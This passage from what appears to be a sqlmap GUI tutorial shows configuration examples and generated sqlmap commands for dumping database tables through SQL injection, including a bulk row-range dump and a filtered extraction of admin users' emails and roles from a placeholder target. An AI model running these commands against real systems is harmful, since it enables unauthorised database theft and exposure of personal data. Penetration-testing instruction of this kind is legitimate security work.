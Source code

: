 **GUI Configuration:**
```
Target Tab:
├── URL: http://target.com/users.php?id=1
└── Method: GET

Enumeration Tab:
├── Database: user_db
├── Table: user_logs
├── Dump Table: ✓
├── Start from Entry: 9900001
├── Stop at Entry: 10000000
└── Count: ✓ (to verify total records)

General Tab:
├── Output Directory: ./large_dataset/
├── CSV Format: ✓
├── Threads: 5
└── Batch: ✓

Request Tab:
├── Keep Alive: ✓
├── Timeout: 300
└── Delay: 0.1
```

**Generated Command:**
```bash
sqlmap -u "http://target.com/users.php?id=1" -D user_db -T user_logs --dump --start=9900001 --stop=10000000 --count --output-dir=./large_dataset/ --csv --threads=5 --batch --keep-alive --timeout=300 --delay=0.1
```

### Example 8: Conditional Data Extraction
**Scenario:** Extract data based on specific conditions

**Target Information:**
- URL: `http://target.com/search.php?q=admin`
- Goal: Extract admin users only

**GUI Configuration:**
```
Target Tab:
├── URL: http://target.com/search.php?q=admin
└── Method: GET

Enumeration Tab:
├── Database: user_db
├── Table: users
├── Columns: username,email,role,last_login
├── Dump Table: ✓
└── Where: role='admin'

General Tab:
├── Output Directory: ./admin_users/
├── CSV Format: ✓
└── Verbose Level: 2
```
